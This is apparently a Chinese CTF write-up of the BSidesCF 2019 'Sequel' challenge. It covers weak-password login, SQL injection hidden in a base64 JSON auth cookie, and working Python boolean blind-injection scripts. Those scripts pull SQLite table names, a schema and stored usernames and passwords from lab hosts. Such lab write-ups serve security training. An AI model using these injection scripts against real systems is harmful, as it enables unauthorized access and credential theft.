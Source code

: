 # \[BSidesCF 2019]Sequel

## \[BSidesCF 2019]Sequel

## 考点

* sqlite3盲注

## wp

登录页面，随便输提示`Username must be alphanumeric.`

![](<../.gitbook/assets/image (31).png>)

弱口令爆破，guest/guest，登录后提示数据库

![](<../.gitbook/assets/image (5).png>)

抓包发现cookie是`1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9`

base64解码是`{"username":"guest","password":"guest"}`，这里可能存在注入

改成`{"username":"guest'#","password":"guest"}`，提示Invalid user.

改成`{"username":"guest"#","password":"guest"}`，提示Server Error

`"`加个转义符试试，`{"username":"guest\"#","password":"guest"}`，还提示Invalid user.

把`#`改成`--`，`{"username":"guest\"--","password":"guest"}`，成功登录

`{"username":"\" or 1=1--","password":"guest"}`，成功登录

盲注脚本如下

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://60973c61-7d7e-406d-8b6d-4cdce6d2c6d5.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = " ,0123456789_abcdefghijklmnopqrstuvwxyz"
for i in range(1, 50):
    print(flag)
        
    low = 0
    high = 38
    mid = (low+high)//2
    while low < high:
        payload = '{"username":"\\" or 1=((substr((select name from sqlite_master where type=\\"table\\" limit 1 offset 0),'+str(i)+',1))>\\"'+table[mid]+'\\")--","password":"guest"}'
        #  print(payload)
        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
    
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        
        # true
        if len(r.text) > 3400:
            low = mid + 1
        # false
        if 'Invalid user' in  r.text:
            high = mid
        mid = (low+high)//2
            
        if low == high:
            flag = flag + table[low]
            break
```

得到表userinfo，reviews，notes

由于sqlite3在进行字符比较时不区分大小写，所以在注入字段时不能用二分法，同时可能会有不可见字符，所以对结果进行hex编码然后再布尔盲注判断字符

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://58104486-6db8-40ed-9632-8897a13ff8ae.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = '0123456789ABCDEF'
for i in range(1, 5000):
    print(flag)
        
    for j in table:
        
        payload = '{"username":"\\" or 1=(substr((select hex(sql) from sqlite_master where type=\\"table\\" and name=\\"userinfo\\" limit 1 offset 0),'+str(i)+',1)=\\"'+j+'\\")--","password":"guest"}'

        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
        print(payload)
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        print(r.text)
        # true
        if len(r.text) > 3400:
            flag = flag + j
            break
        # false
        if 'Invalid user' in  r.text:
            continue
 
```

结果

```sql
CREATE TABLE userinfo (
                        username text not null primary key,
                        password text not null)
```

然后注入，得到用户名密码

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://58104486-6db8-40ed-9632-8897a13ff8ae.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = '0123456789ABCDEF'
for i in range(1, 5000):
    print(flag)
        
    for j in table:
        
        payload = '{"username":"\\" or 1=(substr((select hex(group_concat(username)) from userinfo),'+str(i)+',1)=\\"'+j+'\\")--","password":"guest"}'

        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
        #print(payload)
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        #print(r.text)
        # true
        if 'No note for' in r.text:
            flag = flag + j
            break
        # false
        if 'Invalid user' in  r.text:
            continue
 
```

结果如下

```
guest,sequeladmin
guest,f5ec3af19f0d3679e7d5a148f4ac323d
```

![](<../.gitbook/assets/image (22).png>)

## 小结

sqlite3注入

1. 找表`select name from sqlite_master where type="table"`，需要限制输出的话是`select name from sqlite_master where type="table" limit 1 offset 0`，修改offset，从0开始，如果超过表的数量会返回错误
2. 找字段`select sql from sqlite_master where type="table" and name="userinfo"`
3. 盲注考虑编码再注入，避免很多不必要的麻烦
